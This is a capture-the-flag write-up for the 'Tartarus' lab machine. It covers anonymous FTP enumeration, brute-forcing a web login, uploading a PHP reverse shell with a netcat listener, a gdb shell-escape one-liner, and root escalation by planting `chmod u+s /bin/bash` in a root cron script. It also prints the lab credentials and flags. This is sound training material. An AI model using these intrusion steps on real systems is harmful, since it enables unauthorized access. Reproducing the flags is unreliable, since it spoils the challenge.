 ## IP=10.10.16.253


# Tartarus #

### Approach:
	
1. Apache server with a /robots.txt page.
	* User-Agent: *
	* Disallow : /admin-dir
	* 'I told d4rckh we should hide our things deep.'

2. FTP (21), SSH (22), HTTP (80)
	* Can log into FTP with anonymous.

3. Found hidden file on FTP server: `cd .../.../yougotgoodeyes.txt`.
	* Gave us: `/sUp3r-s3cr3t`, which is a login page.

4. Used BurpSuite to brute force the username and password of the login page.
	* Username: `enox`
	* Password: `P@ssword1234`

5. Once logged in, you can upload files. Uploaded a php reverse shell, but didn't know where the uploads were. Decided to run gobuster on the new endpoint: `gobuster dir -u http://$IP/sUp3r-s3cr3t -x html,php,sh -o gobuster_super-secret.log`. 
	* Found `sUp3r-s3cr3t/images/uploads`.
	* Was able to run my php reverse shell and gain access.
		* Locally: `nc -lnvp 4444`.

6. Found two users: `thirtytwo` and `d4rckh`
	* There is a `user.txt` in d4rckh.
		* '0f7dbb2243e692e3ad222bc4eff8521f'
	* There is a `note.txt` in thirtytwo.
		* ```Hey 32, the other day you were unable to clone my github repository. Now you can use git. Took a while to fix it but now its good :) ~D4rckh```

7. Can switch to user, thirtytwo, using gdb:
	* `./gdb -nx -ex 'python import os; os.execl("/bin/bash", "bash", "-p")' -ex quit`

8. Used linpeas.sh to view some exploit opportunities. Noticed a cron job executing the python program, /home/d4rckh/cleanup.py, as root.

9. As user, thirtytwo, edit the /home/d4rckh/cleanup.py file using nano. Replace everyting under the import statements with this command, `os.system('chmod u+s /bin/bash')`. Wait for the cron job to run. Once it executes, you'll have access to run /bin/bash as root.
	* Root privilege escalation: `/bin/bash -p`.


### Questions:

1. User Flag

```
0f7dbb2243e692e3ad222bc4eff8521f
```

2. Root Flag

```
7e055812184a5fa5109d5db5c7eda7cd
```
